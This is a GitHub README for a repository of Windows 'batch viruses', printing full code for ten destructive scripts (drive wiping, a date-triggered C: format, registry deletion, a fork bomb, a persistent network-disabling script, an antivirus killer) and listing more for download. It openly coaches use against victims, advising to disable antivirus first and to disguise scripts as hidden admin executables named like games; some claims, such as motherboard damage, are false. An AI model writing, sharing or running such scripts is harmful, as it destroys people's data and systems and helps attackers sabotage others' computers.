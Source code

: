 <h1 align="center"><u> Batch Viruses</u></h1>

## An awesome collection of different kinds of Computer Viruses written in Batch File.

---
<img src="https://user-images.githubusercontent.com/73777108/149873561-ace30728-a82f-466b-8e43-0433c2c2e87d.png" align="right">

Create amazing yet Deadly viruses with small yet deadly codes. These can be created with just Notepad, and even be downloaded from here.
The viruses here are mostly very dangerous.

Compiled and Edited by [SparkScratch-P](https://sparkscratch-p.github.io/).


---
## ⚠️ALERT: 

- These are only for educational purposes. 
- Never try them on your own device until you are sure of what you are doing.
- Me, or any other contributor to this repo will not be responsible for any damage to your device.
- Handle files with care and awareness.
- Most damages can't be restored or recovered.

---

# The Awesome List of Computer Viruses!


### 1. Deletes all content of a drive


<details><summary> Read More </summary>
 
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus1.bat">virus1.bat</a></p>
<pre><code> @<span class="hljs-built_in">echo</span> off
<span class="hljs-built_in">del</span> <span class="hljs-variable">%systemdrive%</span>\*.* /f /s /q
shutdown -r -f -t <span class="hljs-number">00</span>
</code></pre>
 

  </details>



### 2. Time Bomb Virus, formats C: on 25 November 2023


<details><summary> Read More </summary>
  
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus2.bat">virus2.bat</a></p>
<pre><code><span class="hljs-keyword">If</span> <span class="hljs-variable">%date%</span> <span class="hljs-keyword">NEQ</span> <span class="hljs-number">2023</span>/<span class="hljs-number">11</span>/<span class="hljs-number">25</span> <span class="hljs-keyword">goto</span> <span class="hljs-keyword">exit</span>
<span class="hljs-built_in">format</span> C: /y &gt;<span class="hljs-built_in">nul</span>
:<span class="hljs-keyword">exit</span>
<span class="hljs-keyword">exit</span>
</code></pre><p>The Date, Time, and the Drive to be formatted can be changed.</p>
  
   

  </details>



### 3. Crash Ur Computer of Windows Xp


<details><summary> Read More </summary>

<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus3.bat">virus3.bat</a></p>
<pre><code><span class="hljs-keyword">Option</span> <span class="hljs-keyword">Explicit</span>

<span class="hljs-keyword">Dim</span> WSHShell
<span class="hljs-keyword">Set</span> WSHShell=Wscript.<span class="hljs-built_in">CreateObject</span>(“Wscript.Shell”)

<span class="hljs-keyword">Dim</span> x
<span class="hljs-keyword">For</span> x = <span class="hljs-number">1</span> <span class="hljs-keyword">to</span> <span class="hljs-number">100000000</span>
WSHShell.Run “Tourstart.exe”
<span class="hljs-keyword">Next</span>
</code></pre><p>This Virus works only for Windows XP, and besides formatting the drives, it damages the motherboard.</p>

   

  </details>

### 4.  Delete Key Registry Files 



<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus4.bat">virus4.bat</a></p>
<pre><code>@ECHO OFF
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.<span class="hljs-keyword">exe</span>
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.dll
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/*
:MESSAGE
ECHO Your computer <span class="hljs-built_in">has</span> been fcked. Have <span class="hljs-keyword">a</span> nice day.
GOTO MESSAGE
</code></pre><p>This virus is extremely dangerous, don&#39;t run it on your device.</p>

  </details>

### 5. The Most Simple Virus To Crush The Window. Delete C:/


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus5.bat">virus5.bat</a></p>
<pre><code>@Echo <span class="hljs-literal">off</span>
Del C:<span class="hljs-string">\</span> *.* |y
</code></pre><p>Your device will not restart again, after it runs once!</p>

 
  </details>
 
 
### 6. Endless Notepads


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus6.bat">virus6.bat</a></p>
<pre><code>@<span class="hljs-built_in">ECHO</span> off
:top
<span class="hljs-built_in">START</span> <span class="hljs-variable">%SystemRoot%</span>\system32\notepad.exe
<span class="hljs-keyword">GOTO</span> top
</code></pre><p>This will open endless notepads, until ur system gets overloaded, hanged, and crashed!</p>
<p>NOTE : If you mistakenly open it, immediately power of and force shut down your computer, else it may crash, never to start again.</p>

 
  </details>
 

### 7. Disable Internet Permanently


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus7.bat">virus7.bat</a></p>
<pre><code><span class="hljs-symbol">echo</span> <span class="hljs-comment">@echo off&gt;c:windowswimn32.bat</span>
<span class="hljs-symbol">echo</span> <span class="hljs-keyword">break </span>off&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> ipconfig/release_all&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> <span class="hljs-meta">end</span>&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">echo</span> You Have <span class="hljs-keyword">Been </span>HACKED!
<span class="hljs-symbol">PAUSE</span>
</code></pre><p>Your device will never ever connect to the internet if this virus runs once!</p>
  
  </details>
 


### 8. Crazy Caps Lock


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus8.bat">virus8.bat</a></p>
<pre><code><span class="hljs-keyword">Set</span> wshShell <span class="hljs-comment">=wscript.CreateObject(</span>”<span class="hljs-comment">WScript.Shell</span>”<span class="hljs-comment">)</span>
do
wscript.sleep <span class="hljs-comment">100</span>
wshshell.sendkeys “<span class="hljs-comment">{CAPSLOCK}</span>”
loop
</code></pre><p>This repeatedly toggles your Caps Lock key. It is fully harmless and gets proper on reboot, or once the task is ended in Task Manager.</p>

   
  </details>


### 9. Endless Backspace



<details><summary> Read More </summary>
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus9.bat">virus9.bat</a></p>
<pre><code>MsgBox “Let’s go back <span class="hljs-selector-tag">a</span> few steps”
Set wshShell =wscript.CreateObject(”WScript.Shell”)
do
wscript<span class="hljs-selector-class">.sleep</span> <span class="hljs-number">100</span>
wshshell<span class="hljs-selector-class">.sendkeys</span> “{bs}”
loop
</code></pre><p>This will repeatedly keep pressing your Backspace, and will not let u type. It pops up a message; “Let’s go back a few steps”, and starts nuisence. Anyways, it is temporary, and harmless.</p>
    
  </details>


### 10. Disable the Antivirus



<details><summary> Read More </summary>
 
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus10.bat">virus10.bat</a></p>
<pre><code>@ echo off
rem —
rem Permanently Kill Anti-Virus
net stop “Security Center”
netsh firewall <span class="hljs-keyword">set</span> opmode <span class="hljs-comment">mode=disable</span>
tskill /A av*
tskill /<span class="hljs-comment">A fire*</span>
tskill /A anti*
cls
tskill /<span class="hljs-comment">A spy*</span>
tskill /A bullguard
tskill /<span class="hljs-comment">A PersFw</span>
tskill /A KAV*
tskill /<span class="hljs-comment">A ZONEALARM</span>
tskill /A SAFEWEB
cls
tskill /<span class="hljs-comment">A OUTPOST</span>
tskill /A nv*
tskill /<span class="hljs-comment">A nav*</span>
tskill /A F-*
tskill /<span class="hljs-comment">A ESAFE</span>
tskill /A cle
cls
tskill /<span class="hljs-comment">A BLACKICE</span>
tskill /A def*
tskill /<span class="hljs-comment">A kav</span>
tskill /A kav*
tskill /<span class="hljs-comment">A avg*</span>
tskill /A ash*
cls
tskill /<span class="hljs-comment">A aswupdsv</span>
tskill /A ewid*
tskill /<span class="hljs-comment">A guard*</span>
tskill /A guar*
tskill /<span class="hljs-comment">A gcasDt*</span>
tskill /A msmp*
cls
tskill /<span class="hljs-comment">A mcafe*</span>
tskill /A mghtml
tskill /<span class="hljs-comment">A msiexec</span>
tskill /A outpost
tskill /<span class="hljs-comment">A isafe</span>
tskill /A zap*
cls
tskill /<span class="hljs-comment">A zauinst</span>
tskill /A upd*
tskill /<span class="hljs-comment">A zlclien*</span>
tskill /A minilog
tskill /<span class="hljs-comment">A cc*</span>
tskill /A norton*
cls
tskill /<span class="hljs-comment">A norton au*</span>
tskill /A ccc*
tskill /<span class="hljs-comment">A npfmn*</span>
tskill /A loge*
tskill /<span class="hljs-comment">A nisum*</span>
tskill /A issvc
tskill /<span class="hljs-comment">A tmp*</span>
cls
tskill /A tmn*
tskill /<span class="hljs-comment">A pcc*</span>
tskill /A cpd*
tskill /<span class="hljs-comment">A pop*</span>
tskill /A pav*
tskill /<span class="hljs-comment">A padmin</span>
cls
tskill /A panda*
tskill /<span class="hljs-comment">A avsch*</span>
tskill /A sche*
tskill /<span class="hljs-comment">A syman*</span>
tskill /A virus*
tskill /<span class="hljs-comment">A realm*</span>
cls
tskill /A sweep*
tskill /<span class="hljs-comment">A scan*</span>
tskill /A ad-*
tskill /<span class="hljs-comment">A safe*</span>
tskill /A avas*
tskill /<span class="hljs-comment">A norm*</span>
cls
tskill /A offg*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\alwils~<span class="hljs-number">1</span>\avast4\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Lavasoft\Ad-awa~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kasper~<span class="hljs-number">1</span>\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\trojan~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\f-prot95\*.dll
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\tbav\*.dat
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avpersonal\*.vdf
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.cnt
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Mcafee\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">3</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\speedd~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsvr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgemc\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgcc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgupsvc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\grisoft
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32krn\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nod32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kav\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kavmm\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kaspersky\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewidoctrl\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\guard\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewido\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprsrv\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprot\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avengine\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\apvxdwin\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\webproxy\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\panda software\*.*
rem —
</code></pre><p>This will disable your antivirus for the timbing.  One can run it on Victim computer before loading any virus to it!</p>
     
  </details>
 
 
 
 ## This was just a list of ten. There are 25 More in our collection, here on GitHub! Just Have a look at thm:

- Task-kill some apps
- Command Line Notepad
- CD/ROM popper with malicious popups

<details><summary>Details</summary>

CD/ROM keeps opening  and closing ...an error msg keeps popping up  and when i turn on my PC an error msg shows so i have to press ok then open my account

</details>

- CD drive popup
- Stop current Internet access
- Format all Drives from C to J
- Delete Entire Registry
- Crash PC for ever
- Application bomber
- Delete System 32 Folder
- Disgust and shut down!
- Destroy-shutdown with popup
- Shutdowns Computer Everytime It Is Turned On
- Change useful random files to on-working txt files
- System meltdown
- Flood internet
- System Crash

<details><summary>Details</summary>
It will make you unable to use your PC and FORCE you to install Windows OS again. You will only be aware of the infiltration the next time you turn on your Computer! Use the latest version of “Bat To Exe Converter” and add Administrator manifest to it and make it Invisible application before converting it to .exe! Your victim doesn’t even know what is happening or what this virus did. Your trusted Antivirus can’t even detect it cause this file doesn’t work as normal viruses but the later damage will be way too much than what a couple of malware can do.
You may name it in a sexy way like GTA and choose the appropriate icon to attract your victim’s attention. But please, don’t try to be an ASS HAT with it.

</details>

- Matrix virus

<details><summary>Details</summary>

AS IT WAS TOO DANGEROUS, THE ACTUAL HEADER FILES FOR THIS SCRIPT ARE NOT GIVEN
AND IF U WANT TO TRY THIS SCRIPT U CAN JUST USE OF HEADER FILES SUCH AS STDIN, STDLIB, CONIO, AND STUFF LIKE THAT

</details>

- Bloat random folder
- User Account Bloatware
- Overload with unlimited background processes
- Killer and system crasher virus

<details><summary>Details</summary>

Here is a Batch File virus which can:

1.Copy itself into startup
2.Copy itself over one thousand times into random spots in your computer.
3.Hide its self and all other created files
4.Task kill MSN, Norton, Windows Explorer, Limewire.
5.Swap the left mouse button with the right one
6.Opens alert boxes
7.Changes the time to 12:00 and shuts down the computer
copy this code into notepad and save as Greatgame.bat(while saving select all files instead of text ).

</details>

- Show incognito history
- Delete entire system
- Command Line Notepad

<details><summary>Details</summary>
Form Of Switches

-s
Shuts down the PC.

-l
Logs off the current user.

-t nn
Indicates the duration of delay, in seconds, before performing the action.

-c “messagetext”
Displays a message in the System Shutdown window. A maximum of 127 characters can be used. The message must be enclosed in quotation marks.

-f
Forces any running applications to shut down.

-r
Reboots the PC. ..!!!

</details>

- Text bloater

### You can easily search out the desired virus by following the commit titles in `./viruses` directory in the `main` brach under this repo.

## How to Manage Viruses?

Most viruses are dangerous, and many of them are not detectable by modern Antiviruses. So, handle with care, and don't think, it is undetected, so you can freely run or use it. 
Be sure about what you ar doing. To avoid serious problems, the `#include` libraries of some have been removed, and others are fillet with micro glitches, that you need to fix before you run them. Remember, these are only for educational, and research purposes. Read the details about all viruses on this page!
 
  To get a virus, download the repo, and extract. Or, copy-paste the code from here to Notepad, and save as `.bat` (Text Encoding : ASNI). These viruses works only on Windows.

        <section id="downloads">
          
          <a href="https://codeload.github.com/SparkScratch-P/batch-virus/zip/refs/heads/main" class="btn btn-github"><span class="icon"></span>Download .Zip</a>
        </section>
      </div>
  
## Developers

 The viruses may be preexisting, but most of thm have been slight-edited, and posted here, often toincrease the impact factor.

Favourable points of development:

- New or more impactful viruses.
- Controlled viruses to work for good.
- Helpful viruses.
- Documentation of more viruses, 25 left, 10 done on this page.
- Report if it is working or not, improve glithes, report bugs.

     <section id="downloads">
          
          <a href="https://codeload.github.com/SparkScratch-P/batch-virus/zip/refs/heads/main" class="btn btn-github"><span class="icon"></span>Download .Zip</a>
        </section>
      </div>

### All contributions and PRs are welcome. 

<h1 align="center">⭐ Leave A Star If You Like It ⭐<h1>
<h1 align="center">❤️ Thank You ❤️<h1>
